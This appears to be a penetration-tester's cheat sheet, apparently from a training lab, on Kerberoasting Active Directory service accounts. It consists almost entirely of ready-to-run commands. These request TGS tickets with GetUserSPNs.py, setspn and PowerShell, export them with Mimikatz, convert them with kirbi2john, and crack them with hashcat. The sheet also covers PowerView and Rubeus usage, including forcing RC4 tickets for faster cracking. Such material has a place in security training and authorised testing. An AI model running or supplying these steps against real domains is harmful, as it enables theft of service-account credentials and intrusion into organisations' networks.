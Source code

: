 # Kerberoasting - Performing the Attack

Depending on your position in a network, this attack can be performed in multiple ways:

    - From a non-domain joined Linux host using valid domain user credentials.
    - From a domain-joined Linux host as root after retrieving the keytab file.
    - From a domain-joined Windows host authenticated as a domain user.
    - From a domain-joined Windows host with a shell in the context of a domain account.
    - As SYSTEM on a domain-joined Windows host.
    - From a non-domain joined Windows host using runas /netonly.


# From Linux

## GetUserSPNs.py

### Listing SPN Accounts with GetUserSPNs.py
```bash
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend
```

### Requesting all TGS Tickets
```bash
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request
```

### Requesting a Single TGS ticket
```bash
GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/forend -request-user sqldev -outputfile sqldev_tgs
```

# From Windows

## Semi manual way.

### Enumerating SPNs with setspn.exe

```powershell
setspn.exe -Q */*
```

### Targeting a Single User
Next, using PowerShell, we can request TGS tickets for an account in the shell above and load them into memory. Once they are loaded into memory, we can extract them using Mimikatz. Let's try this by targeting a single user

```powershell
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"

Id                   : uuid-67a2100c-150f-477c-a28a-19f6cfed4e90-2
SecurityKeys         : {System.IdentityModel.Tokens.InMemorySymmetricSecurityKey}
ValidFrom            : 2/24/2022 11:36:22 PM
ValidTo              : 2/25/2022 8:55:25 AM
ServicePrincipalName : MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433
SecurityKey          : System.IdentityModel.Tokens.InMemorySymmetricSecurityKey
```

### Retrieving All Tickets Using setspn.exe

```powershell
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList $_.Context.PostContext[0].Trim() }
```

### Extracting Tickets from Memory with Mimikatz

```powershell
.\mimikatz

mimikatz: base64 /out:true
isBase64InterceptInput  is false
isBase64InterceptOutput is true

mimikatz: kerberos::list /export 

```

### Preparing the Base64 Blob for Cracking

Next, we can take the base64 blob and remove new lines and white spaces since the output is column wrapped, and we need it all on one line for the next step.

```bash
echo "<base64 blob>" |  tr -d \\n | tee encoded_file
```

### Placing the Output into a File as .kirbi

```bash
cat encoded_file | base64 -d > sqldev.kirbi
```

### Extracting the Kerberos Ticket using kirbi2john.py
```bash
kirbi2john sqldev.kirbi | tee crack_file
```

### Modifiying crack_file for Hashcat

**Note**: the newer version of kirbi2john doesn't require that.

```bash
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > sqldev_tgs_hashcat
```

### Cracking the Hash with Hashcat
```bash
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt 
```

## Automated / Tool Based Route

### Using PowerView to Extract TGS Tickets

### Enumerate spn users
```powershell
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname
```

### Using PowerView to Target a Specific User

```powershell
Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\sqldev_tgs.csv -NoTypeInformation
```

### Exporting All Tickets to a CSV File

```powershell
Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
```

## Using Rubeus

Let's use Rubeus to request tickets for accounts with the admincount attribute set to 1. These would likely be high-value targets and worth our initial focus for offline cracking efforts with Hashcat. Be sure to specify the /nowrap flag so that the hash can be more easily copied down for offline cracking using Hashcat

```bash
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap
.\Rubeus.exe kerberoast /user:adunn /nowrap
```
We can use Rubeus with the /tgtdeleg flag to specify that we want only RC4 encryption when requesting a new service ticket. The tool does this by specifying RC4 encryption as the only algorithm we support in the body of the TGS request. This may be a failsafe built-in to Active Directory for backward compatibility. By using this flag, we can request an RC4 (type 23) encrypted ticket that can be cracked much faster.

```
Note: This does not work against a Windows Server 2019 Domain Controller, regardless of the domain functional level. It will always return a service ticket encrypted with the highest level of encryption supported by the target account. This being said, if we find ourselves in a domain with Domain Controllers running on Server 2016 or earlier (which is quite common), enabling AES will not partially mitigate Kerberoasting by only returning AES encrypted tickets, which are much more difficult to crack, but rather will allow an attacker to request an RC4 encrypted service ticket. In Windows Server 2019 DCs, enabling AES encryption on an SPN account will result in us receiving an AES-256 (type 18) service ticket, which is substantially more difficult (but not impossible) to crack, especially if a relatively weak dictionary password is in use. 
```

# Double Hop Issue
https://posts.slayerlabs.com/double-hop/